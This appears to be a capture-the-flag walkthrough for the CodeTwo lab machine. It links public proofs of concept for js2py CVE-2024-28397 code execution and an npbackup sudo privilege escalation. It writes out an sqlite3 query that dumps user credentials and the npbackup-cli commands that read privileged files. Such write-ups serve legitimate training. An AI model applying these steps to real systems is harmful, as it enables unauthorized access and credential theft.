 # CodeTwo (Easy): 10.10.11.80

![Icon](Images/codetwoicon.png)

---

## Quick Overview

A very easy and quick machine that can be pwned in two simple steps:

1. **js2py 0.74** → [CVE-2024-28397](https://github.com/waleed-hassan569/CVE-2024-28397-command-execution-poc)  
   *Thanks to @waleed-hassan569* → **USER.TXT**

2. **npbackup 3.0.1** → [npbackup 3.0.1 PrivEsc](https://github.com/AliElKhatteb/npbackup-cli-priv-escalation)  
   *Thanks to @AliElKhatteb* → **ROOT.TXT**

---

## USER.TXT

### Enumeration and Entry Point

We start with an **nmap** scan that reveals **port 8000**.

![Icon](Images/nmapscan.png)

This part consists of a few steps:

1. Download the app and inspect the `requirements.txt` file to discover it uses **js2py==0.74**.  
   We then exploit the vulnerability [CVE-2024-28397](https://github.com/waleed-hassan569/CVE-2024-28397-command-execution-poc) to achieve remote code execution.

2. In the `instance/` directory, there is a **users.db** file. This will be useful later.

3. After registering a user, we exploit the js2py vulnerability to extract user information from the database: `sqlite3 instance/users.db 'SELECT * FROM user;'`

![Icon](Images/codeexploitRCE.png)

### Thank You, Marco

After retrieving Marco's credentials, we use [CrackStation](https://crackstation.net/) to crack the password and obtain **USER.TXT**.

---

## ROOT.TXT

### First discovery:

We run `sudo -l` and see that we have sudo access to **npbackup 3.0.1**.

![Icon](Images/sudol.png)

After a quick search, we find this [Privilege Escalation PoC.](https://github.com/AliElKhatteb/npbackup-cli-priv-escalation)

### PrivEscal with npbackup:

following the instruction, and we will get the **ROOT.TXT**

`sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup` => creat backup

`sudo /usr/local/bin/npbackup-cli -c npbackup.conf -s` => list snap id

`sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump FILE --snapshot-id SNAP ID` => read the file in backup

![Icon](Images/npbackupexploit.png)

